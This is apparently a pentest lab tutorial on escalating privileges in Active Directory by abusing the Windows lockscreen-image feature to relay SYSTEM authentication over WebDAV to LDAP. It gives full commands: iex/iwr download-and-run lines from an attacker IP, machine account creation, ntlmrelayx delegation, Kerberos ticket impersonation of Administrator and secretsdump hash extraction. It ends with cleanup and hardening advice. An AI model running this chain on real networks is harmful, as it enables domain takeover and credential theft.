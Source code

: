 ```yaml
---
description: >-
  Abuse the lockscreen image changing functionality to achieve a webdav network
  authentication as SYSTEM from the given computer. Then relay the
  authentication to the Active Directory LDAP service in or
---
```


# Change-LockScreen

## Configuring

1. Login to `WEB01` as the `Administrator` user with password `Welcome01!`.
2. Open PowerShell and execute the following command to enable WebDav.

```
Install-WindowsFeature WebDAV-Redirector –Restart
```

2\. After the server restarts Open the "Windows Defender Firewall" to open up the SMB port.

![](<../../../../.gitbook/assets/image (38) (1) (1) (1).png>)

3\. Click on "Allow an app or feature through Windows Defender Firewall"

![](<../../../../.gitbook/assets/image (2) (1) (1) (1) (1).png>)

4\. Select "File and Printer sharing" and click on "OK"

![](<../../../../.gitbook/assets/image (23) (1) (1) (1) (1).png>)

## Attacking

### How it works

Abuse the lockscreen image changing functionality to achieve a webdav network authentication as SYSTEM from the given computer. Then relay the authentication to the Active Directory LDAP service in order to set up Resource-Based Constrained Delegation to that specific machine.

### Tools

* [Powermad](https://github.com/Kevin-Robertson/Powermad)
* [Invoke-DNSUpdate](https://github.com/Kevin-Robertson/Powermad/blob/master/Invoke-DNSUpdate.ps1)
* [Change-LockScreen](https://github.com/nccgroup/Change-Lockscreen)
* [Impacket](https://github.com/SecureAuthCorp/impacket)

### Executing the attack

#### Prerequisite

* Low priv shell on a machine
* An account with a SPN associated (or able to add new machines accounts (default value this quota is 10))
* WebDAV Redirector feature must be installed on the victim machine. (W10 has it by default, but manually installed on server 2016 and later)
* A DNS record pointing to the attacker’s machine (By default authenticated users can do this)

#### Executing the attack

1. It is expected that a low privileged shell is already gained on `Web01` through the SQL server.

{% content-ref url="../../sql-server-attacks/executing-commands.md" %}
[executing-commands.md](../../sql-server-attacks/executing-commands.md)
{% endcontent-ref %}

2\. Get the machine account Qouta from the domain with crackmapexec:

```
crackmapexec ldap 10.0.0.5 -u richard -p Sample123 -M MAQ
```

![](<../../../../.gitbook/assets/image (9) (1) (1) (1) (1) (1) (1) (1).png>)

The machine account qouta is 10, meaning we (all authenticated users) can create our own computerobject in the domain.

2\. Create machine account `FAKE01` with password `123456` with PowerMad:

```
iex (iwr http://192.168.248.3:8090/Powermad.ps1 -usebasicparsing)
New-MachineAccount -MachineAccount FAKE01 -Password $(ConvertTo-SecureString '123456' -AsPlainText -Force) -Verbose
```

![](<../../../../.gitbook/assets/image (56) (1) (1) (1) (1).png>)

3\. Create a DNS record for webdav to our attacking machine with Invoke-DNSUpdate. The DNS record is required for webdav connection to work. It won't connect through an IP only with a hostname. We create a DNS record webdav.amsterdam.bank.local to our attacking machine IP.

```
iex (iwr http://192.168.248.3:8090/Invoke-DNSUpdate.ps1 -usebasicparsing)
Invoke-DNSUpdate -DNSType A -DNSName webdav.amsterdam.bank.local -DNSData 192.168.248.3 -Realm amsterdam.bank.local
```

![](<../../../../.gitbook/assets/image (19) (1) (1) (1) (1) (1).png>)

We now have all our prerequisites. Time to escalate our privileges.

4\. Run NTLMRelay on our Kali machine and set it up so it will write the `msDS-AllowedToActOnBehalfOfOtherIdentity` attribute that allows our created computerobject `FAKE01` to actonbehalf `WEB01`:

```
python3 /opt/impacket/examples/ntlmrelayx.py -t ldap://10.0.0.3 --delegate-access --escalate-user FAKE01$ --serve-image ./image.jpg
```

![](<../../../../.gitbook/assets/image (34) (1) (1) (1) (1) (1) (1).png>)

5\. Run the Change-LockScreen tool in the shell of WS01 and check the ntlmrelay output. The Change-LockScreen command will give an error but this doesn't matter:

```
iex (iwr http://192.168.248.3:8090/Change-Lockscreen.ps1 -usebasicparsing)
change-lockscreen -webdav \\webdav@80\
```

![](<../../../../.gitbook/assets/image (1) (1) (1) (1).png>)

When we check the ntlmrelay output we see that `FAKE01` can now impersonate users on `WEB01`.

![](<../../../../.gitbook/assets/image (64) (1) (1) (1) (1) (1) (1).png>)

If we open the attribute editor on DC02 for WEB01 we can see the `msDS-AllowedToActOnBehalfOfOtherIdentity` attribute:

![](<../../../../.gitbook/assets/image (51) (1) (1).png>)

6\. Create a CIFS service ticket using `FAKE01` impersonating the domain admin `Administrator` using impackets getST.py. Fill in the password `123456`.

```
getST.py amsterdam/FAKE01@10.0.0.5 -spn cifs/web01.amsterdam.bank.local -impersonate administrator -dc-ip 10.0.0.3
```

![](<../../../../.gitbook/assets/image (32) (1) (1) (1) (1).png>)

7\. Use this ticket and run `secretsdump.py` to dump the local admin hashes of `WEB01`.

```
export KRB5CCNAME=administrator.ccache
secretsdump.py -k -no-pass web01.amsterdam.bank.local
```

![](<../../../../.gitbook/assets/image (44) (1) (1) (1) (1).png>)

### Cleanup

1. Login to `DC02` as `Administrator` with the password `Welcome01!`.
2. Execute the following command to remove the `msDS-AllowedToActOnBehalfOfOtherIdentity` attribute from `WEB01`.

```
Set-ADComputer -PrincipalsAllowedToDelegateToAccount $null -Identity web01
```

3\. Execute the following command to remove the `FAKE01` computer we created:

```
Get-ADComputer fake01 | Remove-ADObject
```

4\. Open "DNS Manager" and expand DC02 --> Forward Lookup Zones --> and click on `Amsterdam.bank.local.`Remove the DNS-record created for webdav:

![](<../../../../.gitbook/assets/image (33) (1) (1) (1).png>)

4\. From our Kali machine set the SQL server settings back:

```
mssql-cli -S 10.0.0.5 -U sa -P sa
EXEC sp_configure 'xp_cmdshell',0
RECONFIGURE
EXEC sp_configure 'show advanced options',0
RECONFIGURE
```

## Defending

### Recommendations

* Change who can add computers to the domain.

{% content-ref url="../../../../defence/hardening/change-who-can-join-computers-to-the-domain.md" %}
[change-who-can-join-computers-to-the-domain.md](../../../../defence/hardening/change-who-can-join-computers-to-the-domain.md)
{% endcontent-ref %}

* Add privileged users to the protected users group.

{% content-ref url="../../../../defence/hardening/protected-users-group.md" %}
[protected-users-group.md](../../../../defence/hardening/protected-users-group.md)
{% endcontent-ref %}

* Add the flag "Account is sensitive and cannot be delegated".

{% content-ref url="../../../../defence/hardening/account-is-sensitive-and-cannot-be-delegated.md" %}
[account-is-sensitive-and-cannot-be-delegated.md](../../../../defence/hardening/account-is-sensitive-and-cannot-be-delegated.md)
{% endcontent-ref %}

* Remove the WebDav client from servers and workstations.

### Detection



## References

{% embed url="https://research.nccgroup.com/2019/08/20/kerberos-resource-based-constrained-delegation-when-an-image-change-leads-to-a-privilege-escalation" %}

{% embed url="https://github.com/Kevin-Robertson/Powermad" %}

{% embed url="https://github.com/Kevin-Robertson/Powermad/blob/master/Invoke-DNSUpdate.ps1" %}

{% embed url="https://github.com/SecureAuthCorp/impacket" %}
